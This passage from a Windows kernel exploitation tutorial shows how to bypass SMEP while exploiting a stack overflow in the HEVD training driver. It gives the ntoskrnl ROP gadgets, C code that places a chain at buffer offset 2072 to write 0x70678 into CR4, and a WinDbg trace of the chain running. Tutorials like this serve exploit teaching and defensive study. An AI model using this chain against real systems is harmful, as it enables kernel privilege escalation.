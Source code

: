As you can see it is very easy to get the base address of the kernel and other drivers providing that you have access to the `EnumDeviceDrivers` call. But, we're not done here. We still need to build our ROP chain to flip the 20th bit of the CR4 register.

The ROP chain itself is fairly simple, we simply need to pop our inteded CR4 value into a register and then move the contents of that register into the CR4 register thus turning off SMEP. To find gadgets we can use something such as RP++. In my case I found the below gadgets in `ntoskrnl.exe`.

```title="Gadgets for SMEP bypass"
0x1406a0a51: pop rcx ; ret     
0x1409a41e3: mov cr4, rcx ; ret
```

Now that we've got the gadgets to use we need to update our exploit to place those gadgets in the buffer at the point we control the return address so that when we return we start our ROP chain to disable SMEP.

```C title="Updated code to include SMEP bypass"
    char buffer[2100] = {0};

    unsigned long long BaseAddress = GetKernelBase();

    unsigned long long ROP1 = BaseAddress + 0x6a0a51;   // 0x1406a0a51: pop rcx ; ret      : ntoskrnl.exe
    unsigned long long ROP2 = 0x70678;                  // Updated CR4
    unsigned long long ROP3 = BaseAddress + 0x9a41e3;   // 0x1409a41e3: mov cr4, rcx ; ret : ntoskrnl.exe

    /* Fill exploit buffer with As. */
    memset(buffer, 0x41, sizeof(buffer));

    printf("[+] Beginning ROP chain to disable SMEP!\n");
    memcpy(&buffer[2072], &ROP1, GadgetSize);
    memcpy(&buffer[2072+8], &ROP2, GadgetSize);
    memcpy(&buffer[2072+16], &ROP3, GadgetSize);
    printf("[*] SMEP should now be disabled!\n");
```

If you're wondering why we choose the value `0x70678` to be the new value for CR4 this is because in binary this value is `1110000011001111000` which makes the 20th bit 0, which is the bit for SMEP. Let's go ahead and trace the execution in a debugger and ensure that the 20th bit of CR4 is getting correctly set to 0 to disable SMEP.

```asm title="Bypassing SMEP"
0: kd> bp HEVD!TriggerBufferOverflowStack+0xca

0: kd> g
Breakpoint 0 hit
HEVD!TriggerBufferOverflowStack+0xca:
fffff805`87e8667e e83dabf7ff      call    HEVD!memcpy (fffff805`87e011c0)

1: kd> p
HEVD!TriggerBufferOverflowStack+0xcf:
fffff805`87e86683 eb1b            jmp     HEVD!TriggerBufferOverflowStack+0xec (fffff805`87e866a0)

[...] /* (2) */

1: kd> p
HEVD!TriggerBufferOverflowStack+0x10b:
fffff805`87e866bf c3              ret

1: kd> p
nt!HvCheckBin+0xe1:
fffff805`820a0a51 59              pop     rcx

1: kd> p
nt!HvCheckBin+0xe2:
```

[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.